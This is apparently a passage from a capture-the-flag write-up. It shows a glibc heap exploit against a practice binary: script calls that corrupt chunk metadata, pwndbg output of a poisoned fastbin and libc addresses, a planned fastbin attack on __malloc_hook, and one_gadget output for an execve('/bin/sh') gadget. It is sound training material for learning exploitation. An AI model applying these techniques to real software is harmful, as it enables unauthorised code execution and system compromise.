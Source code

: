 ```
test it, also set the correct prev size
```python
delete(4)
edit(5, 0x68, flat('1' * 0x60, 0x170))
delete(6)
delete(5)
#add(0x120, flat(cyclic(n = 8, length = 0x120)))
pause()
add(0x120, flat('a' * 248, 0x71, 0xdeedbeef))
```
```gdb -q -p `pidof pwn` -ex "b *0x400AB8" -ex "c"```
```
pwndbg> ni
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x1a743b0 ◂— 0xdeedbeef
0x80: 0x0
pwndbg> magic
========== function ==========
system:0x453a0
execve:0xcc7f0
open:0xf70f0
read:0xf7310
write:0xf7370
gets:0x6ed90
setcontext+0x35:0x47b85
========== variables ==========
__malloc_hook(0x3c4b10)             : 0x0000000000000000
__free_hook(0x3c67a8)               : 0x0000000000000000
__realloc_hook(0x3c4b08)            : 0x00007fdc97442a70
stdin(-0x7fdc96dbaf50)              : 0x00007fdc977818e0
stdout(-0x7fdc96dbaf60)             : 0x00007fdc97782620
_IO_list_all(0x3c5520)              : 0x00007fdc97782540
__after_morecore_hook(0x3c67a0)     : 0x0000000000000000
pwndbg> p &__malloc_hook
$1 = (void *(**)(size_t, const void *)) 0x7fdc97781b10 <__malloc_hook>
pwndbg> x/20gx 0x7fdc97781b10-0x20
0x7fdc97781af0 <_IO_wide_data_0+304>:	0x00007fdc97780260	0x0000000000000000
0x7fdc97781b00 <__memalign_hook>:	0x00007fdc97442ea0	0x00007fdc97442a70
0x7fdc97781b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7fdc97781b20 <main_arena>:	0x0000000000000000	0x0000000000000000
0x7fdc97781b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7fdc97781b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7fdc97781b50 <main_arena+48>:	0x000000000089c3b0	0x0000000000000000
0x7fdc97781b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7fdc97781b70 <main_arena+80>:	0x0000000000000000	0x000000000089c540
0x7fdc97781b80 <main_arena+96>:	0x000000000089c3e0	0x000000000089c3e0
pwndbg> x/4gx 0x7fdc97781b10-0x23
0x7fdc97781aed <_IO_wide_data_0+301>:	0xdc97780260000000	0x000000000000007f
0x7fdc97781afd:	0xdc97442ea0000000	0xdc97442a7000007f
```
then malloc twice, we can do fastbin attack to malloc_hook-0x23, one_garget offset 0x13
```
root@vm:~/ctf/1# one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL
